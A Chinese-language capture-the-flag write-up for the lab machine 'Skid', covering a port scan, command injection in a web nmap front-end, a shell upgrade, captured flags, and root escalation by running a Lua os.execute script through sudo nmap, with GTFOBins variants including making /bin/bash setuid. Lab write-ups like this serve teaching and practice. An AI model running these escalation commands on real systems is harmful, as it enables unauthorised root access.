





# Skid


# Skid

# 端口扫描

```bash
└─# nmap 192.168.56.106       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-03 00:18 CST
Nmap scan report for 192.168.56.106
Host is up (0.00061s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
MAC Address: 08:00:27:82:C1:4C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.23 seconds
```

测试一下 Nmap Scanner 发现就能直接命令注入



然后反弹一个 shell

```bash
/usr/bin/script -qc /bin/bash /dev/null
按下 ctrl z
stty raw -echo; fg
export TERM=xterm
export SHELL=/bin/bash
```



直接读 flag

```bash
jeremy@skid:~$ cat user.txt 
hmv{7609a0e2e5bf272609dd3e12727eed76}
```

flag：hmv{7609a0e2e5bf272609dd3e12727eed76}

# 提权

发现 nmap 有 root 权限

```bash
jeremy@skid:~$ sudo -l
Matching Defaults entries for jeremy on skid:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jeremy may run the following commands on skid:
    (root) NOPASSWD: /usr/bin/nmap
```

然后直接利用 nmap 提权

```bash
touch root_shell.sh
创建一个sh文件
echo 'os.execute("/bin/sh")'>root_shell.sh
把提权命令写入该文件
sudo nmap --script=root_shell.sh
--script=root_shell.sh 表示使用 root_shell.sh 这个脚本进行扫描。这个脚本可能是用户自定义的，也可能是用于尝试获取目标主机 root
```



但是会发现输入的内容看不到，输入 reset 重置一下终端，最后发现 root 下没有  flag，用 find 找一下即可

```bash
# cat /root/root.txt
Help I lost the root flag! 
Can you please help me find it? 
# find / -name "root.txt" 2>/dev/null
/var/lib/.cache2/root.txt
/root/root.txt
# cat /var/lib/.cache2/root.txt
hmv{1826b83f95bd2ffc5a665bcd54df7ed5}
```

flag：hmv{1826b83f95bd2ffc5a665bcd54df7ed5}

‍

# 番外

在 [GTFOBins](https://gtfobins.github.io/) 中也找到了 namp 提权方法



‍

```bash
TF=$(mktemp)
echo 'os.execute("chmod +s /bin/bash")' > $TF
sudo nmap --script=$TF
bash -p
```



‍

```bash
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF
```


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/skid/  

